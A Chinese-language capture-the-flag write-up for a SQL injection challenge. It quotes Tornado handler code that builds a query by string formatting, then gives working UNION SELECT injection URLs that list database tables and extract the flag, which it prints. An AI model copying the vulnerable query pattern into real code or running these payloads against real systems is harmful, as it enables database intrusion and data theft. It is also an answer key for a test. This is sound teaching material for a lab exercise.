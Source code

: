wdSimpleSQLv1-1 100 points
================

题意
-------------

会长为了早日解决人生大计，特地嘱咐我们出题的时候注意一下，多宣传宣传他。为了响应会长的号召，我特地为团队写了一个大牛展示页面，但是还没写完，里面好像有问题？？？（好像忘记把会长的信息加到数据库了，逃，谁能帮我加进去下，不然会长会打死我的

(PS: Please submit the flag in database)

http://host:port

attachment: wdSimpleSQLv1.zip

解题步骤
-------------

首先找到注入点，位于 `modules.py` 中，关键部分代码：

```
@gen.coroutine
def get(self):
    response = {}
    user_id = yield self.user_author()
    if not user_id:
        self.set_status(401)
        self.redirect('/login')
        return
    cowid = str(self.get_argument('cowname', '')).strip()
    if cowid:
        sql = "select username, subject, blog, description from bigcows where username = '%s'" % cowid
        try:
            bigcow = self.db.query(sql)
        except Exception as e:
            response['Error'] = 'Unknown BigCow ID'
            self.render("bigcows.html", bigcows=None, error=response['Error'])
            return

        if len(bigcow) != 1:
            response['Error'] = "Every BigCow is Unique"
            self.render("bigcows.html", bigcows=None, error=response['Error'])
            return

        try:
            description = base64.b64decode(bigcow[0]['description']).split('\n')
        except Exception as e:
            response['Error'] = "BigCow's Description Error"
            self.render("bigcows.html", bigcows=None, error=response['Error'])
            return
        self.render('bigcow.html', bigcow=bigcow[0], description=description)

    try:
        bigcows = self.db.query("SELECT username, subject FROM bigcows")
    except Exception as e:
        response['Error'] = 'MySQL Error'
        self.render("bigcows.html", bigcows=None, error=response['Error'])
        return
    self.render('bigcows.html', bigcows=bigcows, error=None)

```

注意这一行：

```
sql = "select username, subject, blog, description from bigcows where username = '%s'" % cowid
```

是典型的字符串拼接，可以注入。然后观察我们获取到结果的条件：

1. 只能查到一条消息
2. description（第四项）是一个 Base64 格式编码

这里没有进行任何过滤，直接采用最常见的 `union select` 即可。

首先枚举有哪些表：

```
http://host:port/bigcow?cowname=%27union%20all%20select%20TABLE_NAME,TABLE_NAME,TABLE_NAME,TO_BASE64(DATA_LENGTH)%20from%20INFORMATION_SCHEMA.TABLES%20limit%201%20offset%2060%23
```

通过不断调整 `offset` ，找到最新的几个表中，有一个名为 `flag` 的表。简单尝试一下即可得到 `flag`：

```
http://host:port/bigcow?cowname=%27union%20all%20select%20flag,flag,flag,TO_BASE64(1)%20from%20flag%20limit%201%20offset%200%23
THUCTF{SQLi_Is_so_InterestiNg}
```
